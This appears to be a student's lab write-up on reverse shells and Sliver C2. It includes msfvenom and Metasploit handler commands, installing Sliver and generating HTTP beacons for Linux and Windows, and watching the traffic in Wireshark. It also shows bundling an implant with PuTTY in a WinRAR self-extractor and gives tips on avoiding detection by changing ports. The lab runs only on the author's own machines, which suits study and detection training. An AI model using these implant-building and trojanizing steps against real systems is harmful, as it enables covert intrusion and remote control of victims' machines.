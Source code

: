 # Shells

## a. Snif venom

In this one I will try to use Wireshark to snif out a msfvenon reverse shell tcp malware on my local machine. 

To make things easier, I will disable any internet access so theres less stuff going on in Wireshark. Pinging localhost first to make sure we are listening to the right interface: 

<img src="h6.4.png" alt=img/>

Great, the pings are being listened to, now we can do our exploit. Also making sure we arent connected to the internet.

<img src="h6.1.png" alt=img/>

I will now start my msfconsole and run the msfvenom binary which I've created in my previous homework assignemnt h5 using 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o reverse_shell.elf`

so I have the reverse.shell binary still and I will use it for this exercise. Let's open up msfconsole

<img src="h6.2.png" alt=img/>

`msfconsole`

`use exploit/multi/handler`

`set payload linux/x86/meterpreter/reverse_tcp`

`set LHOST localhost`

`set LPORT 4444`

<img src="h6.3.png" alt=img/>

Now on the other terminal we will run the binary of the msfvenon malware using `./reverse_shell.elf`

When we look at wireshark, we can immediately see a bunch of packets being sent over the IP of 127.0.0.1 on port 4444 and 37256

<img src="h6.5.png" alt=img/>

This kind of traffic would seem unusual because it's using port 4444 which is often associated with Metasploit and also it's a connection that's constantly listening with a lot of consistent traffic. That could indicate a reverse shell or some compromised service is listening.

We could mask this by switching to another more obscure or unknown port or even HTTP 80 port.



## b. Sliver HTTP

So in this one we want to make a sliver implant that communicates over HTTP.

First we need to install sliver using `curl https://sliver.sh/install|sudo bash`

Then we will start the sliver service `systemctl start sliver`

Now we will use sliver with `sliver`

<img src="h6.6.png" alt=img/>

Now we can create the implant 
`generate beacon --http <your_server_ip> --os <target_os> --arch <target_arch>`

My command for my own linux host
`generate beacon --http 127.0.0.1 --os linux --arch 386`

`http` can also be some other like `mtls` or `dns`
`--os` for operating system

`--arch` for CPU architecture whether 64 bit or 32 bit

We should have some sort of executable that we can run. 

<img src="h6.7.png" alt=img/>

Now we just need to start http listener with `http` in sliver and `jobs` to inspect it 

<img src="h6.8.png" alt=img/>

Now we just run the executable in linux and we will get a beacon session. 

<img src="h6.9.png" alt=img/>

We can `use <beacon id>` to interact with it and execute commands

## c. Sliver Wireshark Inspect

<img src="h6.10.png" alt=img/>

On wireshark, we can see a lot of HTTP traffic on port 80 and consistent 86 byte packets being sent over the network

<img src="h6.11.png" alt=img/>
When we do `use <beacon_id>` and interact with the beacon we get even more traffic

This is suspicious because it's repeated TLS data with consistent size

TCP Keep-Alive packets and TCP Dup ACK events shows active TCP connection

Port 31337 is a common port for backdoors

POST/authenticate/auth/login.php HTTP requests when you aren't really using any website


## d. Changing active connection type in Sliver?


## e. Screensaver in sliver

You can save screenshot in sliver with `screenshot` while using an active beacon

<img src="h6.12.png" alt=img/>

I have an issue where sliver makes a task but it takes forever for it to complete

<img src="h6.13.png" alt=img/>

This was run on my windows machine and the result was saved to the tmp folder


## f. Sliver binary for windows

Let's make a sliver binary for windows: 
`generate beacon --http 192.168.150.6 --os windows --arch 64`

Turn on `http`

<img src="h6.14.png" alt=img/>

I will execute it on windows now through a shared drive, and run the exe: 

<img src="h6.15.png" alt=img/>

It works

## g. Bundling Sliver with another executable

For this we can use winrar to bundle two exes together using the SFX feature. 

First select the executables you want to use: 


<img src="h6.16.png" alt=img/>

In this case it's sliver binary and PuTTy. I will use Winrar to bundle as SFX

<img src="h6.17.png" alt=img/>

Make sure to password protect and label it as malware

<img src="h6.18.png" alt=img/>

Now we have a password protected exe file. When we run it, we get putty but also run the implant and get a beacon connection on sliver

<img src="h6.19.png" alt=img/>

<img src="h6.20.png" alt=img/>

References:

https://terokarvinen.com/tunkeutumistestaus/

https://osqa-ask.wireshark.org/questions/20423/pshack-wireshark-capture/#:~:text=The%20ACK%20indicates%20that%20a,also%20transmitting%20some%20more%20data.

https://seamlessintelligence.com.au/sliver_1.html

https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2/2f6500892f78dbaae0bd4d41fc72e44aef6759ee

https://www.linkedin.com/pulse/sliver-c2-implementation-hands-on-approach-adegbola-adeleye-0gl6e/

https://barrymalone.medium.com/sliver-an-awesome-c2-framework-c0257f2f52e4

https://dominicbreuker.com/post/learning_sliver_c2_02_beacons_and_sessions/